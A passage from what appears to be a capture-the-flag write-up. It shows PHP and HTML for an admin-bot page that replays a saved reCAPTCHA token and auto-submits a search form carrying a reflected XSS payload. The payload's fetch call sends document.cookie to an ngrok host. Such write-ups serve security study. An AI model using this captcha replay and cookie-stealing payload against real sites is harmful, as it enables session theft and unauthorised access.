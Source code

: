 Then I send a page (`payload.php`) to the Admin Bot that loads the saved g-captcha-response and puts it in the correct form input.

```php
<?php

$captcha = file_get_contents('g-recaptcha-response');

while ($captcha == false) {
    sleep(2);
    $captcha = file_get_contents('g-recaptcha-response');
}

?>

<html>
    <form action="http://google.us.ctf.so/search.php?q=my-search-text" method="POST" name="f" id="search">
        <input type="text" name="q" dir="ltr" value="my-search-text"/>
        <input type="hidden" name="g-recaptcha-response" value="<?php echo $captcha; ?>"/>
        <input type="hidden" name="btnG" value="Google Search"/>
    </form>

    <script>
        frm = document.getElementById("search");
        frm.submit();
    </script>
</html>
```

Note that the loop in the beginning is just to avoid errors if the captcha is not ready when the payload is called.

### XSS Fatality

Since we bypassed the captcha protection, let's move to include our XSS Payload in the query string. The content of the form input is not used, so it can be anything.

Now we have our complete `payload.php`, inside the rebuilt docker image from the challenge (prove your own poison, shou!).

```php
<?php

$payload = urlencode('A"><script>fetch("http://my-ngrok-url.ngrok.io/flag?="+encodeURIComponent(document.cookie), {"mode": "no-cors"});</script><input class="lst" value="B');

$captcha = file_get_contents('g-recaptcha-response');

while ($captcha == false) {
    sleep(2);
    $captcha = file_get_contents('g-recaptcha-response');
}

?>

<html>
    <form action="http://google.us.ctf.so/search.php?q=<?php echo $payload; ?>" method="POST" name="f" id="search">
        <input type="text" name="q" dir="ltr" value="something"/>
        <input type="hidden" name="g-recaptcha-response" value="<?php echo $captcha; ?>"/>
        <input type="hidden" name="btnG" value="Google Search"/>
    </form>

    <script>
        frm = document.getElementById("search");
```